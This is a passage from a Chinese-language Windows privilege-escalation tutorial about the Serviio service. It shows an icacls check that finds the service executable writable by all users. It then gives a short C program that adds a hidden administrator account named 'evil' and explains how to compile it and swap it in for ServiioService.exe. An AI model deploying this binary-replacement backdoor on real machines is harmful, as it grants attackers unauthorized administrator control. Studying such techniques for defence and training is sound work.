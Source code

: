 Serviio服务已安装在Program Files目录中，这意味着该服务是用户安装的，软件开发人员负责目录结构以及软件许可。这些情况使它更容易出现此类漏洞。

我们可以运行icacls，将完整的程序路径作为参数传递。枚举关联的权限

![image-20200528014700232](assets/9.windows提权实例讲解.assets/image-20200528014700232.png)

权限参照表：

![image-20200528014722455](assets/9.windows提权实例讲解.assets/image-20200528014722455.png)

系统上的任何用户（BUILTIN \ Users）都具有对该文件的完全读写访问权限

我们可以用自己的恶意二进制文件替换ServiioService.exe，然后通过重新启动服务或重新启动计算机来触发它。

重新编写一个C程序，用来添加一个evil用户，并添加到管理员组

```c
#include <stdlib.h>
int main ()
{
    int i;
    i = system ("net user evil Ev!lpass /add");
    i = system ("net localgroup administrators evil /add");
    return 0;
}
```

编译

```bash
kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

上传到目标，备份原文件，使用我们的程序替换文件

![image-20200528015218731](assets/9.windows提权实例讲解.assets/image-20200528015218731.png)
